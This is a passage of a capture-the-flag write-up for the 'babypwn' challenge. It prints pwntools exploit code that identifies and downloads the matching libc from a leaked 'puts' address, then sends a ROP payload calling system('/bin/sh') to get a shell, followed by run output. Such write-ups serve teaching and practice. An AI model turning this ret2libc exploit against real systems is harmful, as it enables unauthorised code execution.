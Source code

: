 
```python
    import requests
    r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
    while True:
        libc_url = r.json()[libc_index]['download_url']
        if context.arch in libc_url:
            break
        libc_index += 1
    log.info('libc_url: ' + libc_url)
    libc_file = libc_url.split('/')[-1:][0]
    if not os.path.exists(libc_file):
        log.info('getting: ' + libc_url)
        r = requests.get(libc_url, allow_redirects=True)
        open(libc_file,'wb').write(r.content)
```

This code attempts to find and download the matching libc based on arch and the last three nibbles of the `puts` function.


```python
    libc = ELF(libc_file)
    libc.address = puts - libc.sym.puts
    log.info('libc.address: ' + hex(libc.address))

    payload  = 2 * b'A'
    payload += (offset - len(payload)) * b'\0'
    payload += p64(pop_rdi + 1)
    payload += p64(pop_rdi)
    payload += p64(libc.search(b'/bin/sh').__next__())
    payload += p64(libc.sym.system)

    p.sendlineafter('return.\n',payload)

    try:
        p.sendline('echo shell')
        if b'shell' in p.recvline():
            p.interactive()
            break
    except:
        libc_index += 1
        p.close()
```

The candidate libc is used to complete the second pass and get a shell, however if this fails, the next libc candidate will be tested.

If all libc candidates are exhausted, then this will just error out.  It's most likely not an issue with libc but exploit code.

Output:

```bash
# ./exploit3.py
[*] '/pwd/datajerk/cybersecurityrumblectf2020/babypwn/babypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.cybersecurityrumble.de on port 1990: Done
[*] Loaded 23 cached gadgets for './babypwn'
[*] puts: 0x7ffff7af25a0
[*] libc_url: https://libc.rip/download/libc6_2.31-0ubuntu9_amd64.so
[*] getting: https://libc.rip/download/libc6_2.31-0ubuntu9_amd64.so
[*] '/pwd/datajerk/cybersecurityrumblectf2020/babypwn/libc6_2.31-0ubuntu9_amd64.so'
```